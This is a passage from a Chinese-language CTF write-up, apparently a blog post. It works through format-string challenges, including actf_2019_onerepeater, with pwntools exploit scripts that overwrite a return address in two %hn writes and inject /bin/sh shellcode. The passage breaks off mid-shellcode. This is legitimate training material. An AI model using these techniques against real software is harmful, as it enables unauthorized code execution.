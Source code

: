 ```
from pwn import *
p = remote('node3.buuoj.cn', 25772)
#payload = fmtstr_payload(11, {0x0804A02C:4})
payload = p32(0x0804A02C) + b'%11$n'
p.sendline(payload)
p.interactive()
```

# actf_2019_onerepeater

个人感觉这题不能直接看出或者算出真正的偏移，需要通过动态调试来找出真正的偏移

原因有二：一是所给的最大输入长度为0x400，不够栈溢出，二是在main函数返回时不是常见的leave; ret而是

![image-20210328190152013](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041737899.png)

也就是说，在retn前直接修改了esp的值，这个值是ecx-4的值，而ecx由ebp-4中的值控制，故不能直接确定ret时esp指向的指是多少

我通过gdb找到了真正的偏移为1052

![1](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041737415.png)

ret时，esp为0xffffd58c，在此前打印出buf地址为0xffffd170，相减得偏移为1052

![image-20210328190918543](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041738362.png)

如果有热心的师傅能够告诉小弟怎么样能够不用动态调试看出这个偏移，还请不吝赐教~

此外，栈地址是`ff`开头的，数值非常大，靠`%n`一次性写入四个字节是不可能的，`printf`不可能在理想的时间内输出那么多字符也根本不能输出那么多字符，所以要**分两次写**，每次写两字节，即用`%hn`（用%n也行，重点在于要分两次写）

完整exp如下：

```
# -*- coding: utf-8 -*-
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = process('./pwn')

p.recvuntil("Exit\n")
p.sendline(b'1')
buf_addr = int(p.recv(8), 16)#also shellcode_addr
ret_addr = buf_addr + 1052
#把返回地址(buf_addr，也是存shellcode的地方)的低两位写入ret_addr的低两位
payload1 = p32(ret_addr) + '%' + str((buf_addr & 0xffff) - 4) + 'c%16$hn'
p.sendline(payload1)
p.recvuntil("Exit\n")
p.sendline(b'2')

p.recvuntil("Exit\n")
p.sendline(b'1')
#把返回地址(buf_addr，也是存shellcode的地方)的高两位写入ret_addr的高两位
payload2 = p32(ret_addr + 2) + '%' + str(((buf_addr >> 16) & 0xffff) - 4) + 'c%16$hn'
p.sendline(payload2)
p.recvuntil("Exit\n")
p.sendline(b'2')

shellcode = asm("""
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
xor edx,edx
push 11
pop eax
```